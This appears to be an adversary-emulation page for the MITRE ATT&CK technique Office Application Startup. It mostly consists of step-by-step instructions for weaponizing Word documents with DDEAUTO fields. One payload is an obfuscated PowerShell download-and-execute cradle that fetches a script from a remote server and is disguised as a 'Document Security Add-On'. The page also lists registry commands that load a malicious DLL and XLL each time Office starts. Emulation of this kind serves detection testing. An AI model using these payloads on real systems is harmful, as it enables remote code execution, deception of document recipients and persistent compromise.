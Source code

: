# Office Application Startup

MITRE ATT&CK Technique: [T1137](https://attack.mitre.org/wiki/Technique/T1137)


## DDEAUTO

1. Open Word
2. Insert tab -> Quick Parts -> Field
3. Choose = (Formula) and click ok.
4. Once the field is inserted, you should now see "!Unexpected End of Formula"
5. Right-click the Field, choose "Toggle Field Codes"
6. Paste in the code from Unicorn or SensePost
7. Save the Word document.

* [SensePost DDEAUTO](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/)

    DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

* [TrustedSec - Unicorn](https://github.com/trustedsec/unicorn)

Generate the payload and download.ps1 following the Unicorn instructions, or to make one "just work", follow the steps below.

    DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1'); # " "Microsoft Document Security Add-On"

## Word VBA Macro

[Dragon's Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)

## Office Test

`reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d C:\Users\<username>\evil.dll`

## Excel XLL

`reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\15.0\Excel\Options" /v OPEN /t REG_SZ /d "/R evil.xll"`
